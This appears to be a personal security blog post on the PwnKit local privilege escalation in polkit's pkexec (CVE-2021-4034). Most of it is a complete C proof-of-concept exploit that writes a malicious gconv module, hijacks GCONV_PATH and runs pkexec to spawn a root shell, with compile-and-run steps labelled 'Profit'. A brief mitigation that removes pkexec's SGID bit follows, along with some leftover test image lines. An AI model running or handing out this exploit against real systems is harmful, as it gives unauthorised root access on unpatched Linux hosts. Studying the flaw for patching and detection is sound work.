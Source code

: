 ```yaml
---
title: Polkit's Pkexec CVE-2021-4034
author: Nobel Herrera
date: 2022-03-24 11:11:11 -0400
categories: [CVE, Linux]
tags: [RedTeam, LPE]
math: true
mermaid: true
image:
  path: /commons/devices-mockup.png
  width: 800
  height: 500
---
```


This post walks through the PoC and manual patching of the local privilege escalation vulnerability discovered in polkit’s pkexec, dubbed as PwnKit. 

## Contents
---

* [Exploit confirmed on fully patched Ubuntu 21.10](#exploit-confirmed-on-fully-patched-ubuntu-2110)
* [PoC Code](#poc-code)
* [Manual Patching](#manual-patching)
* [Credits](#credits)

---

## Exploit confirmed on fully patched Ubuntu 21.10:

![](_posts/images/Capture3.PNG)
![](https://github.com/nobelh/CVEs/blob/main/polkit/image3.png)

![Format 1](/docs/assets/test.png)

![Format 2](https://github.com/nobelh/nobelh.github.io/blob/main/docs/assets/test.png)

![Format 3](https://github.com/nobelh/nobelh.github.io/blob/main/docs/assets/test.png)

<img src="https://github.com/nobelh/nobelh.github.io/blob/main/docs/assets/test.png" alt="MarineGEO circle logo" style="height: 100px; width:100px;"/>

test
## PoC Code:
```c
/* Compile: gcc polkit_PoC.c -o PwnKit
* Change perms: chmod +x ./PwnKit
* Profit: ./PwnKit
*/

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

char *shell = 
	"#include <stdio.h>\n"
	"#include <stdlib.h>\n"
	"#include <unistd.h>\n\n"
	"void gconv() {}\n"
	"void gconv_init() {\n"
	"	setuid(0); setgid(0);\n"
	"	seteuid(0); setegid(0);\n"
	"	system(\"export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin; rm -rf 'GCONV_PATH=.' 'pwnkit'; /bin/sh\");\n"
	"	exit(0);\n"
	"}";

int main(int argc, char *argv[]) {
	FILE *fp;
	system("mkdir -p 'GCONV_PATH=.'; touch 'GCONV_PATH=./pwnkit'; chmod a+x 'GCONV_PATH=./pwnkit'");
	system("mkdir -p pwnkit; echo 'module UTF-8// PWNKIT// pwnkit 2' > pwnkit/gconv-modules");
	fp = fopen("pwnkit/pwnkit.c", "w");
	fprintf(fp, "%s", shell);
	fclose(fp);
	system("gcc pwnkit/pwnkit.c -o pwnkit/pwnkit.so -shared -fPIC");
	char *env[] = { "pwnkit", "PATH=GCONV_PATH=.", "CHARSET=PWNKIT", "SHELL=pwnkit", NULL };
	execve("/usr/bin/pkexec", (char*[]){NULL}, env);
}
```
## Manual Patching:
Remove SGID from /usr/bin/pkexec
```shell
cd /usr/bin && sudo chmod 0755 ./pkexec
```
## Credits:
This vulnerability was discovered by the [Qualys Research Team](https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034).